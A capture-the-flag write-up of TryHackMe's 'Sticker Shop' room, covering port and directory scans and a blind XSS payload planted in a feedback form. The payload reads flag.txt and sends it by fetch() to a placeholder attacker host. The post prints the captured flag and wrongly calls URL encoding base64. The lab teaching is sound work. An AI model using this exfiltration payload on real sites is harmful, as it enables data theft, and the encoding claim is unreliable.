 ```yaml
---
title: "The Sticker Shop"
date: 2024-12-1 12:00:00 +0000
categories: [CTF, Tryhackme]
tags: [Writeup, Cybersecurity, Tryhackme]
pin: true
---
```


![Screenshot](/assets/img/stickers-shop/0.png)

Can you exploit the sticker shop in order to capture the flag?

**The sticker shop is finally online!**

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at `http://your-target-ipaddress:8080/flag.txt`?

![Screenshot](/assets/img/stickers-shop/1.png)

let's scan our target first to take a look at the open ports..

```bash
nmap -sV -p- 10.10.199.200
```

![Screenshot](/assets/img/stickers-shop/6.png)

just the given open port -> 8080 

and let's check if there any hints in the header using `curl` tool :

```bash
curl -I http://10.10.199.200:8080/flag.txt
```

![Screenshot](/assets/img/stickers-shop/2.png)

The response indicates that the server is using Werkzeug (a Python-based web framework) and is returning a 401 Unauthorized status.

there is our target :

![Screenshot](/assets/img/stickers-shop/4.png)

we have two links in the nav bar let's check them..

the Home page is normal and doesn't look like it has anything interesting..

so, let's check the feedback page..!

![Screenshot](/assets/img/stickers-shop/5.png)

The page allows users to enter feedback, and after some testing, I found that this page is vulnerable to Blind XSS.

If we tried to access the `http://your-target-ipaddress:8080/flag.txt` directly we will get this message -> **401 Unauthorized**

I made I subdomain enumeration to see if there any hidden path and I used `gobuster` tool..

```bash
gobuster dir -u http://your-target-ipaddress:8080/ -w /usr/share/wordlists/dirb/common.txt
```

but I found nothing except the /flag.txt that we already know it.

![Screenshot](/assets/img/stickers-shop/3.png)

So as a penetration tester who has studied the XSS Types..I know that the blind XSS Type won't give you or won't show you the response directly like the Normal XSS,
So what am gonna do right now is..

**1. Setting Up a Local Server:**

```bash
python3 -m http.server 8000
```

To capture data exfiltrated through Blind XSS, start a simple HTTP server on our local machine:

This will run a web server on port 8000 and allow us to receive HTTP requests containing the exfiltrated flag.

**2. Crafting the Payload:**
I crafted a Blind XSS payload that reads the contents of flag.txt on the server and sends it to My local server:

```js
"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

**Explanation:**

The payload triggers a fetch() request to retrieve the contents of flag.txt from the server.
Once fetched, it exfiltrates the data by sending a new request to our local server `(<our-IP-ADDRESS>:8000)`, appending the flag as a query parameter.

**3. Executing the Exploit:**
Submit the payload in the feedback form at `http://our-target-ipaddress:8080/submit_feedback`.
Monitor your local server’s terminal output for an incoming request containing the flag in the URL.

Let's do it..

![Screenshot](/assets/img/stickers-shop/7.png)

here is the payload..

then we will set up the local server..

![Screenshot](/assets/img/stickers-shop/8.png)

and let's post our payload in the submit form..!

![Screenshot](/assets/img/stickers-shop/9.png)

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.247.239 - - [01/Dec/2024 22:30:35] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

so there is the flag :

```c
flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

but it's base 64 encoded, so let's use our terminal to decode it using this command:

```bash
echo "THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

and finally we've got the flag !

![Screenshot](/assets/img/stickers-shop/11.png)

and guess what!

![Screenshot](/assets/img/stickers-shop/10.png)

yea bro we did it, see u in the next writeup `:)`












